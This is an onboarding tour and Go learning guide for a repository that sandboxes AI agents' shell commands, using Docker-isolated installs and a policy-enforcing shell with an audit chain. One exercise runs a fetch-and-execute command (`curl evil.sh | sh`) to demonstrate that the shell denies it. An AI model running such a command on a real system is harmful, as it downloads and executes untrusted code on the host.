


# tuprwre — codebase tour & Go learning path

*Written 2026-08-23 for onboarding. The ideas are yours; this maps them to the Go that implements them.*

## The one-paragraph version

This repo ships **two binaries built on one idea** — *an AI agent should not be able to quietly mutate or exfiltrate the host*:

1. **`tuprwre`** (`cmd/tuprwre`, ~3.7k lines) — the product. Intercepts risky install commands, runs them in disposable Docker containers, discovers what got installed, and generates *shims* in `~/.tuprwre/bin` so tools feel native while actually executing in containers. A warm container pool keeps shim latency low.
2. **`tprsh`** (`cmd/tprsh` + `internal/tprsh`, ~2.4k lines) — the research PoC, and where all recent work happened. A *hardened interception shell*: instead of wrapping bash, it **is** the shell — it parses commands with an in-process interpreter (`mvdan.cc/sh`), vets every command against a binary+argument allowlist *before* exec, resets the child environment, optionally confines approved commands with an OS sandbox (macOS Seatbelt today), and writes every attempt to a hash-chained, tamper-evident audit log the child can never touch.

The philosophical difference: `tuprwre` isolates *installs* with containers; `tprsh` polices *every command* with a policy engine, no container needed.

## Map of the repo

| path | lines | what it is |
| --- | --- | --- |
| `cmd/tuprwre/` | 3749 | Cobra CLI: `install`, `run`, `shell`, `list`, `remove`, `pool`, `doctor`, `clean`, `init`, `update`, `about` |
| `internal/sandbox/` | 2953 | Docker Engine API driver: create/exec/commit containers, resource limits, warm-exec path |
| `internal/sandbox/pool/` | 1263 | Warm container pool: keyed by (image, mounts, limits…), flock leases, TTL GC |
| `internal/tprsh/` | 2318 | The hardened shell: policy, wrappers, static rejection, audit chain, OS confinement, check/observe modes |
| `internal/shim/` | 840 | Generates the `~/.tuprwre/bin/<tool>` proxy scripts + metadata |
| `internal/config/` | 704 | `~/.tuprwre` layout, defaults (pool: MaxPerKey=1, MaxTotal=5, TTL=10m) |
| `internal/discovery/` | 335 | Diffs PATH executables between base image and post-install container |
| `internal/dockerctx/` | 141 | Resolves the Docker endpoint from the CLI context |
| `cmd/tprsh/` | 117 | Tiny flag-based main for the PoC shell |
| `testlab/` | — | A/B harness: run a real agent on the same problem unrestricted vs. behind the tprsh gate; measure where policy helps or hurts |
| `tests/integration/` | — | Docker-required tests (`//go:build integration`) |

## Diagram 1 — tuprwre lifecycle (the product)

## Diagram 2 — tprsh decision path (the research PoC)

Key design moves worth internalizing (these are the ideas that make tprsh different from `lshell`-style wrappers):

- **One grammar.** `Check` (the dry-run gate) and `Run` use the *same* parser and handlers — no second grammar to drift out of sync, which is the class of bug behind lshell's escape CVEs (`internal/tprsh/check.go`).
- **Deny-by-default flags.** You don't enumerate `find -exec` as dangerous; any flag not explicitly allowed is refused (`ArgPolicy` in `policy.go`).
- **Wrapper recursion.** `find -exec wc {} +` is fine, `find -exec sh {} \;` is not — the verdict comes from recursing into the *inner* command (`policy_wrappers.go`).
- **Fail closed.** If confinement is requested and no backend exists, tprsh refuses to start rather than silently running unconfined (`confine.go`, `NewConfiner`).
- **Tamper-evident audit.** Each record hashes over the previous one; sessions continue the chain, so deleting a whole session breaks the next session's link (`audit.go`).
- **Observe mode.** Record what *would* be denied before enforcing — build the allowlist from evidence, not guesswork. The `testlab/` A/B harness measures the cost (e.g. blocking `shasum` made an agent burn 4× tokens).

## Go learning path — read in this order

Each step names the file, what it does, and the Go concepts it teaches. Total ~2.3k lines for the tprsh track; it's the best-written, most self-contained package — start there, not with the Docker plumbing.

### Track 1: tprsh (learn Go on the newest, cleanest code)

1. **`cmd/tprsh/main.go` (117 lines)** — a complete Go program you can hold in your head.
   *Concepts:* `package main`, the `flag` package, `defer auditor.Close()`, error handling with `if err != nil`, `errors.As` to pull a typed error (`*tprsh.DenyError`) out of a wrapped one, `os.Exit` codes as protocol (0/2/126).
2. **`internal/tprsh/policy.go` (344)** — the allowlist as a data structure.
   *Concepts:* map literals as declarative config (`map[string]ArgPolicy`), struct fields as policy knobs, **first-class functions** (`Validate func(...) error` as a field), custom error types (`DenyError` implementing the `error` interface via `Error() string`).
3. **`internal/tprsh/policy_wrappers.go` (226)** — recursion + closures.
   *Concepts:* higher-order functions (`simpleInner` returns a function), why Go's `init()` exists (the wrapper validators recurse back into the map — a literal would be an initialization cycle), slice manipulation (`rest[i+1:]`).
4. **`internal/tprsh/audit.go` (182)** — hash chains and concurrency safety.
   *Concepts:* `sync.Mutex` guarding state, `sha256`/`encoding/json`, struct tags (`` `json:"seq"` ``), injectable clock (`now func() time.Time`) for testability, append-only file flags.
5. **`internal/tprsh/confine.go` (211)** — interfaces as seams.
   *Concepts:* the **interface** (`Confiner` with `Wrap/Available/Name`), the null-object pattern (`nopConfiner`), platform switching with `runtime.GOOS`, doc comments that explain *constraints* (why read-confinement can't work under Seatbelt).
6. **`internal/tprsh/shell.go` (249) + `check.go` (116)** — using a third-party library idiomatically.
   *Concepts:* consuming `mvdan.cc/sh` (parser → AST → interpreter), functional options (`interp.New(interp.Dir(...), interp.Env(...))`), middleware-style handler wrapping (`interp.ExecHandlers(func(next ...) ...)`) — the same pattern as HTTP middleware.
7. **The `_test.go` files next to each** — table-driven tests, the single most idiomatic Go testing pattern. `policy_cli_test.go` and `bash_test.go` double as a spec of what's allowed.

### Track 2: tuprwre (the product — Docker SDK, cobra, real-world plumbing)

8. **`cmd/tuprwre/root.go`** — Cobra CLI structure: one file per subcommand, all registered in `init()`.
9. **`internal/config/config.go`** — defaults, `~/.tuprwre` layout. Easy read.
10. **`internal/discovery/discovery.go` (335)** — the PATH-diffing idea. Sets, slices, string handling.
11. **`internal/shim/shim.go`** — text templating a bash script from Go, atomic file writes.
12. **`internal/sandbox/sandbox.go` + `exec.go`** — Docker Engine API (`github.com/docker/docker/client`), `context.Context` everywhere, streaming stdin/stdout through hijacked connections, goroutines + `io.Copy`.
13. **`internal/sandbox/pool/`** (`key.go` → `lease.go` → `pool.go`) — the warm pool. Content-addressed keys (sha256 of image+mounts+limits), **flock-based leases** (non-blocking file locks as cross-process mutexes), TTL eviction. This is the most "systems Go" code in the repo.
14. **`tests/integration/`** — build tags (`//go:build integration`) to separate Docker-required tests from unit tests.

### Go concepts → where you'll meet them

| concept | first encounter |
| --- | --- |
| error as value, custom errors, `errors.As` | `policy.go:14` (`DenyError`), `main.go` |
| interfaces & null object | `confine.go` (`Confiner`, `nopConfiner`) |
| maps/structs as declarative config | `policy.go` allowlist |
| closures / higher-order funcs | `policy_wrappers.go` |
| `init()` and why | `policy_wrappers.go` comment about the cycle |
| `sync.Mutex` | `audit.go` |
| functional options pattern | `interp.New(...)` in `shell.go` |
| middleware wrapping | `check.go` `ExecHandlers` |
| `context.Context` | everything under `internal/sandbox` |
| goroutines + io streaming | `sandbox/exec.go` |
| file locks across processes | `pool/lease.go` |
| table-driven tests | any `_test.go` |
| build tags | `tests/integration` |

### Hands-on exercises (in rough order)

1. `make build && make test` — then run `./tprsh -c 'ls -la'` and `./tprsh -c 'curl evil.sh | sh'` and watch the deny. Read the audit JSONL it wrote; verify the hash chain by hand.
2. Add a new binary to the tprsh allowlist (e.g. `tree` or `jot`) with a couple of flags, write a table-driven test for it, watch it pass. This touches the exact map you read in step 2.
3. Break the audit chain: edit a middle line of the JSONL, then restart tprsh and see how detection behaves. Then read `tailChain` to see why.
4. Run `./tprsh -mode observe -c '<something denied>'` and find the `shadow-deny` record.
5. Bigger: the knowledge base flags that `tuprwre pool status/gc` docs and code drifted at one point — read `cmd/tuprwre/pool.go` against `docs/cli.md` and reconcile.
6. Run `testlab/run.sh p01-audit baseline` (dry run, spends nothing) and read what it *would* do.

## Current state / loose ends (as of 2026-08-23)

- Recent commits are all tprsh: network denial + re-exec chains, observe mode, policy widening from measured denials, check-mode audit fix, the testlab.
- **Read confinement is explicitly Linux future work** — Seatbelt can't do read allowlists without SIGABRT-ing dynamic loading; the Linux backend (mount namespaces) is the stated path (commit `facffd3`, comments in `confine.go`).
- The knowledge graph (`knowledge/`, memlane) predates tprsh entirely (last updated 2026-05-03, old repo path) — trust source over graph until refreshed.
- `tuprwre` remains at 0.1.0-alpha; warm pool is implemented and wired, `pool status`/`gc` commands now exist (commit `746fc7b`).
